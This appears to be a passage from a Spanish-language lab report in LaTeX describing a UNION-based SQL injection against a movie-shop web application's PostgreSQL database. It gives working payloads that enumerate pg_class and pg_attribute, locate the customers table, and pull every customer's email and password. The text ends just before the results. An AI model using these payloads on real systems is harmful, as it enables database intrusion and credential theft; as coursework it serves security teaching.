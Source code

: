 \documentclass{article}
\begin{document}
Usamos para ello el siguiente comando.

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT relname AS movietitle FROM pg_class
	WHERE relname  LIKE '%_pkey';--
\end{Verbatim}

Añadimos \texttt{AND 0 = 1} para evitar que apareciesen resultados de películas, y después usamos el operador \texttt{UNION} para concatenar los resultados de la consulta que queremos hacer en realidad. El resultado de esa consulta fue el siguiente:

\begin{Verbatim}
    customers_pkey
    orders_pkey
    imdb_movielanguages_pkey
    imdb_actormovies_pkey
    products_pkey
    imdb_actors_pkey
    imdb_directors_pkey
    imdb_moviegenres_pkey
    imdb_movies_pkey
    imdb_moviecountries_pkey
    imdb_directormovies_pkey
    inventory_pkey
\end{Verbatim}

Aquí vimos que probablemente la tabla \texttt{customers}, asociada a la clave primaria \texttt{customers\_pkey}, es la que nos interesaba. Confirmamos que esa tabla existía y obtenemos su \textit{oid} con

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT oid || ',' || relname AS movietitle
	FROM pg_class WHERE RELNAME='customers';--
\end{Verbatim}

La salida \texttt{30345,customers} nos confirma que la tabla existe y nos da su \textit{oid}, con lo que podemos encontrar sus columnas. Para ello usamos la siguiente cadena

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT attname AS movietitle
	FROM pg_attribute WHERE attrelid=30345;--
\end{Verbatim}

Obtenemos así todas las columnas, y vemos dos que nos interesan: \texttt{email} y \texttt{password}. El último paso es obtener los correos y contraseñas de todos los clientes de la web:

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT email || ',' || password AS movietitle FROM customers;--
\end{Verbatim}

Los resultados fueron suficientes:
\end{document}
